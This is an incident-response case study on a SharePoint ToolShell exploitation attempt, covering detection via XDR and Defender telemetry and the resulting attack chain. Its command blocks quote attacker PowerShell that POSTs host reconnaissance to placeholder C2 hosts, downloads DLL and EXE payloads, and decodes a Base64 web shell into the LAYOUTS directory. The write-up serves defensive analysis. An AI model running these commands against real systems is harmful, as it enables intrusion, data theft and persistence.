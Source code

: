 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.
- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed behaviors:
- **Recon & data exfil** via `Invoke-WebRequest` **HTTP POST** to external hosts:
    
    - `$(whoami /all)`, `$(systeminfo)`, `$(tasklist /v)`, `$(netstat -ano)`, directory listings of SharePoint and user profile paths.
        
- **Web app & SharePoint enumeration**:
    
    - `appcmd list app /text:[path='/'].physicalPath`, listings under `C:\inetpub\wwwroot\wss\VirtualDirectories\...` and `...\App_GlobalResources`.
        
- **Artifact download & drop** (cleartext HTTP):
    
    - EXE/DLLs fetched from external IPs/domains and saved under `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\...` and `C:\ProgramData\...`.
        
- **Potential web shell deployment**:
    
    - **Decoded `-EncodedCommand` summary:** writes a **Base64-encoded ASPX file** to SharePoint **LAYOUTS** path as `spinstall0.aspx`:
```
$destinationFile = "C:\PROGRA~1\COMMON~1\MICROS~1\WEBSER~1\16\TEMPLATE\LAYOUTS\spinstall0.aspx"
$decodedContent = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($base64String))
$decodedContent | Set-Content -Path $destinationFile
```
→ This is consistent with **ToolShell-style web shell write** into a globally served SharePoint directory.
- **Other signs**: creation of `0.css` in `App_GlobalResources` (write test / file-drop), and plaintext download of binaries (`SPDesk.exe`, `SPlog.exe`, `log.dll`, `Product.Wsc.dll`, `nvsmartmax64.dll`, `txmlutil.dll`).

#### Representative command patterns:
 ``` 
# Exfil / recon
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami /all)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(netstat -ano)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\inetpub\wwwroot\wss\VirtualDirectories)

# Artifact downloads
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/asx -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\WebTempDir\SPlog.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# SharePoint/IIS context
w3wp.exe -ap "SharePointWebAppPools" ...
cmd.exe /c C:\Windows\System32\inetsrv\appcmd.exe list app /text:[path='/'].physicalPath

# EncodedCommand (web shell write to LAYOUTS)
cmd.exe /c powershell -EncodedCommand <BASE64>   # decodes and writes spinstall0.aspx to LAYOUTS

 ```

#### Encoded Command:
![[POC-Decoded-Strings.png]]


## Analysis Summary
- The activity observed is consistent with post-exploitation of a SharePoint vulnerability. Adversaries leveraged `w3wp.exe` to spawn PowerShell and `cmd.exe` for:

- **Reconnaissance & Exfiltration** – collecting host details (`systeminfo`, `whoami`, `tasklist`, `netstat`) and directory listings, then exfiltrating results via cleartext HTTP POST to external C2 servers.
    
- **File Write & Payload Delivery** – downloading executables and DLLs into service account directories (`AppData\Local`, `ProgramData`), indicating attempts at persistence or staging.
    
- **Web Shell Deployment** – a Base64-encoded PowerShell payload decoded and wrote an ASPX file (`spinstall0.aspx`) into the SharePoint `LAYOUTS` directory, providing an accessible web shell for remote control.
    
- **SharePoint/IIS Enumeration** – commands targeting `appcmd.exe` and SharePoint resource directories, suggesting knowledge of SharePoint application structure.
    

These behaviors demonstrate a multi-stage attack chain: 
> **Initial Compromise** → **Host Reconnaissance** → **Data Exfiltration** → **Payload Deployment** → **Web Shell Installation for Persistence and Further Exploitation**.

